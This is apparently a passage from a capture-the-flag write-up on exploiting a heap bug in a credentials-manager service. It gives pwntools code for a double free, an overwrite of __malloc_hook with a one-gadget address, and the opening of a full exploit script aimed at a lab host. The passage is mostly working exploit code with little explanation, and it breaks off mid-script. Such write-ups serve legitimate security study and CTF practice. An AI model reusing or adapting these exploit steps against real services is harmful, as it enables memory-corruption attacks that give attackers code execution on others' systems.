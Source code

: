```python
new(0x68, b'A', b'5'*0x8)
delete(5)
delete(4)
new(0x68, b'B', b'4'*0x8)
new(0x68, b'B', b'5'*0x20 + p64(heap_base+0x0f0) + b'df')
delete(4)
delete(5)
delete(6)
```
<br />

### Overwriting malloc_book
- We've successfully performed a double free, so we can overwrite any location.
- The important point to note is the size. There are chunks of size 0x7c or 0x7f near malloc_hook, which we can use.
<br />

```python
oneshot = libc_base + 0xe1fa1
malloc_hook = libc_base + 0x3b4b50
new(0x68, p64(malloc_hook-0x10-19), b'over')
pause()
new(0x68, b'X', b'X')
pause()
new(0x68, b'Y', b'Y')
pause()
new(0x68, b'Z'*19 + p64(oneshot), b'EX')
```
<br />

## ex code

```python
from pwn import *

context.log_level = 'debug'

r = remote('192.168.0.2', 8783)

def new(length, credentials, name):
    r.sendlineafter(b'Input: ', b'1')
    r.sendlineafter(b'Select length: ', str(length).encode())
    r.sendafter(b'Enter credentials: ', credentials)
    r.sendafter(b'Name of the credentials: ', name)

def check():
    r.sendlineafter(b'Input: ', b'2')

def delete(idx):
    r.sendlineafter(b'Input: ', b'3')
    r.sendlineafter(b'Select index: ', str(idx).encode())

def exit():
    r.sendlineafter(b'Input: ', b'4')

# get libc_base
new(0x68, b'A'*0x68, b'0'*0x8)
new(0x68, b'A'*0x68, b'1'*0x8)
new(0x68, b'A'*0x68, b'2'*0x8)
new(0x68, b'A'*0x68, b'3'*0x8)
delete(0)
pause()
new(0x68, b'A'*0x68+b'\xe1', b'0'*0x8)
pause()
```